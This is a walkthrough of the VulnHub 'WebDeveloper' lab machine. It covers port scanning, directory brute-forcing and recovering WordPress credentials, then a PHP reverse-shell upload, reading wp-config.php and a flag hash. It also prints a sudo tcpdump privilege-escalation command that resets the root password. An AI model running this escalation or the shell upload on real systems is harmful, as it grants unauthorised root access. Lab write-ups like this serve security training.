 ```yaml
---
categories: [VulnHub]
tags: [Wordpress, Wireshark, PrivEsc]
image:
  path: /Vulnhub-Files/img/WebDeveloper/Untitled%202.png
  alt: WebDeveloper Machine 🕸️
---
```



## Description ⤵️

>    💡 A machine using the newest
<br><br>
    REMOVED
<br><br>
    ### Server, the newest
<br><br>
    REMOVED
<br><br>
    ### and containing some
<br><br>
    REMOVED
<br><br>
    ## Changelog v1 - 2018/11/05 Beta - 2018/9/22
{: .prompt-info}



Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled.png)

```bash
IP : 192.168.56.107
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%201.png)

```text
Open Ports >
22	SSH
80	HTTP
```

---

## Web Enumeration ⤵️

I checked the port 80 :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%202.png)

After Directory Bruteforcing we got this :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%203.png)

After diging in I got this finally :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%204.png)

```bash
Credentials ->
log = webdeveloper
pwd = Te5eQg&4sBS!Yr$)wf%(DcAd
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%205.png)

Now it time to upload reverse shell code and get the shell up and running :>

**With PHP reverse shell linux code I got this :**

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%206.png)

Got these credentials from wp-config.php file :

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%207.png)

```bash
Password : MasterOfTheUniverse
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2010.png)

flag.txt :

Congratulations here is youre flag:

`cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290`

For the root shell I changed the passwd of root to root with chpasswd command :

```bash
Command :

echo "root:root" > test.txt
COMMAND="cat /tmp/test.txt | chpasswd"
TFt=$(mktemp)
echo "$COMMAND" > $TFt
chmod +x $TFt
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TFt -Z root
```

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2011.png)

Now the flag →

![Untitled](/Vulnhub-Files/img/WebDeveloper/Untitled%2012.png)

---